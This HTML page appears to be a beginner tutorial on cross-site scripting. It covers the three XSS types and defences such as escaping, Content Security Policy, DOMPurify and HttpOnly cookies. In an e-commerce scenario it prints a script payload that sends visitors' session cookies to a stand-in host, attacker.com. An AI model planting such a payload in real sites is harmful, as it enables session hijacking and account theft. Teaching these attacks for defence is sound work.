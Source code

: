 <!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1">
</head>
<body>

  <h1>💥 Cross-Site Scripting (XSS) – The Silent JavaScript Attack</h1>

  <h2>👶 For Beginners: What is XSS?</h2>
  <p>
    Imagine you visit a website and see a comment section where users can post messages. Now, what if a hacker posts this instead?
      <div class="highlight">
        <code>&lt;script&gt;alert("Hacked!");&lt;/script&gt;</code>
      </div>
  </p>

 
  <p>
    If the website doesn’t filter this input, the script executes in your browser, displaying a popup. But real attacks are much worse—they can steal your cookies, deface pages, or even hijack your account!
  </p>

  <p>
    💡 <strong>XSS</strong> happens when attackers inject malicious scripts into trusted websites, making your browser run them unknowingly.
  </p>

  <h2>🔍 Technical Explanation of XSS</h2>
  <p>
    Cross-Site Scripting (XSS) is a web vulnerability that allows attackers to inject and execute malicious JavaScript in a victim’s browser. This occurs when a website fails to sanitize user input before displaying it.
  </p>

  <div class="highlight">
    🚨 <strong>Types of XSS Attacks:</strong>
  </div>

  <ul>
    <li>✔️ <strong>Stored XSS</strong> – Malicious script is permanently saved in the website’s database and runs whenever someone views the infected page.</li>
    <li>✔️ <strong>Reflected XSS</strong> – The script is included in a URL or form input and runs when a user clicks a crafted link.</li>
    <li>✔️ <strong>DOM-Based XSS</strong> – The attack happens within the browser’s Document Object Model (DOM), modifying how the page behaves.</li>
  </ul>

  <div class="highlight">
    🚨 XSS is one of the most common web security vulnerabilities and is listed in the OWASP Top 10!
  </div>

  <h2>🚨 Real-World XSS Attack Example</h2>
  <h3>🛍️ Scenario: XSS in an E-Commerce Site</h3>
  <ol>
    <li>A hacker posts a malicious script in a product review:</li>
    <div class="highlight">
      <code>&lt;script&gt;document.location='http://attacker.com/steal?cookie='+document.cookie;&lt;/script&gt;</code>
    </div>
    <li>When users visit the product page, their session cookies get sent to the attacker.</li>
    <li>The attacker hijacks their accounts and makes purchases on their behalf! 🛒💰</li>
  </ol>

  <div class="highlight">
    💡 <strong>Key Takeaway:</strong> If the website had proper input sanitization, it wouldn’t execute JavaScript from user input!
  </div>

  <h2>🛡️ How to Prevent XSS Attacks?</h2>
  <p>Developers must sanitize and validate user input to prevent XSS.</p>

  <h3>✔️ 1. Escape User Input</h3>
  <ul>
    <li>🔹 Use proper escaping techniques to neutralize special characters before rendering them.</li>
    <li>🔹 Example (in HTML): <code>&lt;script&gt;alert("Hacked!");&lt;/script&gt;</code></li>
  </ul>

  <h3>✔️ 2. Use Content Security Policy (CSP)</h3>
  <ul>
    <li>🔹 CSP restricts which scripts can run on a page, preventing unauthorized JavaScript execution.</li>
    <li>🔹 Example: <code>Content-Security-Policy: default-src 'self'; script-src 'self' https://trustedsource.com</code></li>
  </ul>

  <h3>✔️ 3. Validate and Sanitize Input</h3>
  <ul>
    <li>🔹 Reject input that contains malicious characters like <code>&lt;script&gt;</code>, <code>onerror</code>, <code>eval()</code>.</li>
    <li>🔹 Use libraries like DOMPurify to clean user-generated content.</li>
  </ul>

  <h3>✔️ 4. Use HTTP-Only Cookies</h3>
  <ul>
    <li>🔹 Prevent JavaScript from accessing cookies by enabling the HttpOnly flag:</li>
    <div class="highlight">
      <code>Set-Cookie: sessionid=abc123; HttpOnly; Secure</code>
    </div>
  </ul>

  <h3>✔️ 5. Avoid Using innerHTML in JavaScript</h3>
  <ul>
    <li>🔹 Use safe methods like <code>textContent</code> instead of <code>innerHTML</code> to prevent script execution.</li>
  </ul>

  <h3>✔️ 6. Implement Web Application Firewalls (WAFs)</h3>
  <ul>
    <li>🔹 A WAF can detect and block malicious XSS attempts in real-time.</li>
  </ul>

  <h2>🚀 Final Thoughts</h2>
  <p>
    Cross-Site Scripting (XSS) is a powerful attack that allows hackers to execute scripts in a victim’s browser, leading to account takeovers, data theft, and phishing scams.
  </p>
  <p>
    💡 Developers must sanitize inputs, implement CSP, and use secure coding practices to eliminate XSS risks!
  </p>
  <p>
    By enforcing proper escaping, input validation, and security headers, we can stop XSS attacks and keep users safe.
  </p>

  <h3>🔐 Stay Secure, Stay Vigilant!</h3>

</body>
</html>

